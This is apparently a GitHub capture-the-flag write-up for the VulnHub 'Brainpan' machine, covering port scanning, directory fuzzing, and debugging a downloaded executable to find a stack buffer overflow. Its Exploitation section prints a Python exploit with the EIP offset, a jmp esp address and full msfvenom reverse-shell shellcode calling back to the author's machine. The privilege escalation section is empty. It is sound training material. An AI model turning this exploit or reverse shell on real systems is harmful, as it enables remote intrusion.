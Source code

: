 # Brainpan

* ### Setup

  Download the virtual machine <a href="https://www.vulnhub.com/entry/brainpan-1,51/">here</a> and import it in either VirtualBox or        VMWare.
  * **Addresses** - This will be important to underdstand the writeup.
    * My Windows machine: **192.168.2.11**
    * My Kali machine: **10.0.2.15**
    * Brainpan machine: **10.0.2.8**
  
### Information Gathering
---

First of all, we run **nmap** with `nmap -sC -sV -p- -oA brainpan.nmap 10.0.2.8` (replace your target IP)  

<img src="https://github.com/astasinos/Writeups/blob/master/Vulnhub/Brainpan/images/first.png">

We can see that there are only two ports open and two services running on the machine, one at **9999** and the other at **10000**.

Navigating to **10.0.2.8:9999** with firefox returns   

<img src="https://github.com/astasinos/Writeups/blob/master/Vulnhub/Brainpan/images/second.png">

The service running there seems to be expecting a password but it doesn't seem to work over http.

Let's try talking to it with **nc** with `nc 10.0.2.8 9999`

<img src="https://github.com/astasinos/Writeups/blob/master/Vulnhub/Brainpan/images/six.png">


We can now input a password but we don't know it **_yet_**.

Navigating to **10.0.2.8:10000** returns  
<img src="https://github.com/astasinos/Writeups/blob/master/Vulnhub/Brainpan/images/third.png">  

Just a page with an image.

At this point we can put **gobuster** (directory fuzzing tool) running in the background with   
`gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.0.2.8:10000/ -t 5 --timeout 50s`

The high timeout was selected because the HTTP Server running is just a python module and can't handle that much traffic at once. Choosing a lower one returns a lot of errors.

After a while, gobuster returns an interesting directory **_/bin_**.

<img src="https://github.com/astasinos/Writeups/blob/master/Vulnhub/Brainpan/images/fourth.png">


Navigating there we see only one file called **brainpan.exe**

<img src="https://github.com/astasinos/Writeups/blob/master/Vulnhub/Brainpan/images/five.png">


Let's download it.

Running it locally with **wine** reveals it is someking of server expecting for connections at port 9999, just like the service on the box.

<img src="https://github.com/astasinos/Writeups/blob/master/Vulnhub/Brainpan/images/seven.png">


The program now listens on localhost, so let's connect with **nc** at our own machine at port 9999.

<img src="https://github.com/astasinos/Writeups/blob/master/Vulnhub/Brainpan/images/eight.png">


It is clear now that **brainpan.exe** is a copy of the program listening at **9999** at the **remote** box.

Although it is a Windows executable, we can still run `strings` on it.

<img src="https://github.com/astasinos/Writeups/blob/master/Vulnhub/Brainpan/images/nine.png">


This looks interesting.

<img src="https://github.com/astasinos/Writeups/blob/master/Vulnhub/Brainpan/images/ten.png">


This seems to be the correct password but nothing happens when we type it, even at the remote service, so it's pretty useless.

## Vulnerability Analysis
---

We can move **brainpan.exe** to our windows machine for easier analysis.

Start up **Immunity Debugger** and run the program.

<img src="https://github.com/astasinos/Writeups/blob/master/Vulnhub/Brainpan/images/eleven.png">

We will try to crash the application.

Open an ubuntu terminal from the installed ubuntu subsystem on windows, and create a python script like this

```python

print b"A" * 1000
```

Now echo the output to a file `python test.py > crash` , and run `nc 192.168.2.11 9999 <crash` to give the contents of **crash** as input for the password to the program. After running, take a look at **immunity**.

<img src="https://github.com/astasinos/Writeups/blob/master/Vulnhub/Brainpan/images/twelve.png">

We see that not only we crashed the program but we also **overwrote** the instruction pointer **eip**. 
We have a **Buffer Overflow!**

## Exploitation
---

Through a little trial and error, we find that we need to print **524** bytes to start overwriting **eip**.

Typing `!mona modules` in immunity's command line, we see that all protections on **brainpan.exe** are turned off, so this is going to be pretty easy. (Install mona <a href="https://github.com/corelan/mona">here</a>.)
<!-- thirteen -->

Now that we control **eip**, what should we set it to? Where will our shellcode be placed?
Please read: https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/

Right after overwriting **eip** we start overwriting the next values on the stack beginning at the point where the **stack pointer** will return to, after the function call.

* So we have to find a way to jump to **esp**.
Searching in all modules in Immunity for the command `jmp esp` results in 

<!-- fourteen -->

We can only use the `jmp esp` located in **brainpan** itself, because it is the **only** module with **ASLR** disabled.
This means that this particular instruction will always be at that particular address.

Let's point **eip** to that address.

```python
from struct import pack
padding = b"A" * 524 # To reach EIP
padding += pack("<L",0x311712F3)
padding += "\x90" * 10 # NOPs
padding += "\xcc" # Add a breakpoint
print padding
```
Now do `python test.py > test` and restart the program giving as input `nc 192.168.2.11 9999 <test`

<!-- fifteen -->

We can see we are successful, the program executed our instruction perfectly and stopped right at the`\xcc` we provided , which is a way to halt execution. (This is how debuggers work and are able to stop execution of a program).

Now let's create a **_real_** payload with **msfvenom**. Since the target is windows based we can create the appropriate shellcode with
`msfvenom -p windows/shell/reverse_tcp LHOST=10.0.2.15 -e x86/shikata_ga_nai -b '\x00' -f python --smallest -v shellcode`.

The above command selects port **4444** as the listen port automatically and outputs the following shellcode in a format that is easy to implement in **python** and **clear** of **null bytes '\x00'**.


```
shellcode += b"\xdb\xd3\xd9\x74\x24\xf4\xbb\xad\x99\x66\x76"
shellcode += b"\x5e\x31\xc9\xb1\x47\x83\xc6\x04\x31\x5e\x16"
shellcode += b"\x03\x5e\x16\xe2\x58\x65\x8e\xf4\xa2\x96\x4f"
shellcode += b"\x99\x2b\x73\x7e\x99\x4f\xf7\xd1\x29\x04\x55"
shellcode += b"\xde\xc2\x48\x4e\x55\xa6\x44\x61\xde\x0d\xb2"
shellcode += b"\x4c\xdf\x3e\x86\xcf\x63\x3d\xda\x2f\x5d\x8e"
shellcode += b"\x2f\x31\x9a\xf3\xdd\x63\x73\x7f\x73\x94\xf0"
shellcode += b"\x35\x4f\x1f\x4a\xdb\xd7\xfc\x1b\xda\xf6\x52"
shellcode += b"\x17\x85\xd8\x55\xf4\xbd\x51\x4e\x19\xfb\x28"
shellcode += b"\xe5\xe9\x77\xab\x2f\x20\x77\x07\x0e\x8c\x8a"
shellcode += b"\x56\x56\x2b\x75\x2d\xae\x4f\x08\x35\x75\x2d"
shellcode += b"\xd6\xb0\x6e\x95\x9d\x62\x4b\x27\x71\xf4\x18"
shellcode += b"\x2b\x3e\x73\x46\x28\xc1\x50\xfc\x54\x4a\x57"
shellcode += b"\xd3\xdc\x08\x73\xf7\x85\xcb\x1a\xae\x63\xbd"
shellcode += b"\x23\xb0\xcb\x62\x81\xba\xe6\x77\xb8\xe0\x6e"                                                                                                         
shellcode += b"\xbb\xf0\x1a\x6f\xd3\x83\x69\x5d\x7c\x3f\xe6"
shellcode += b"\xed\xf5\x99\xf1\x64\x11\x1a\x2d\xce\x72\xe5"
shellcode += b"\xce\x2f\x5a\x21\x9a\x7f\xf4\x80\xa3\xeb\x04"
shellcode += b"\x2d\x76\x81\x0e\xb9\x73\x56\x0d\x36\xec\x54"
shellcode += b"\x11\x59\xb0\xd1\xf7\x09\x18\xb2\xa7\xe9\xc8"
shellcode += b"\x72\x18\x81\x02\x7d\x47\xb1\x2c\x57\xe0\x5b"
shellcode += b"\xc3\x0e\x58\xf3\x7a\x0b\x12\x62\x82\x81\x5e"
shellcode += b"\xa4\x08\x26\x9e\x6a\xf9\x43\x8c\x1a\x09\x1e"
shellcode += b"\xee\x8c\x16\xb4\x85\x30\x83\x33\x0c\x67\x3b"
shellcode += b"\x3e\x69\x4f\xe4\xc1\x5c\xc4\x2d\x54\x1f\xb2"
shellcode += b"\x51\xb8\x9f\x42\x04\xd2\x9f\x2a\xf0\x86\xf3"
shellcode += b"\x4f\xff\x12\x60\xdc\x6a\x9d\xd1\xb1\x3d\xf5"
shellcode += b"\xdf\xec\x0a\x5a\x1f\xdb\x8a\xa6\xf6\x25\xf9"
shellcode += b"\xc6\xca"
```

Create the final python script with the above shellcode. You can find it in this repo too.

Let's test it locally first. Run brainpan with wine again and prepair like this.

<!-- sixteen -->

Now run the command at the bottom left aaaand we have a **shell** !

<!-- seventeen -->

Doing the same but for the brainpan box gives us a shell with the user **puck**

<!-- 8teen -->

## Privilege escalation 
---




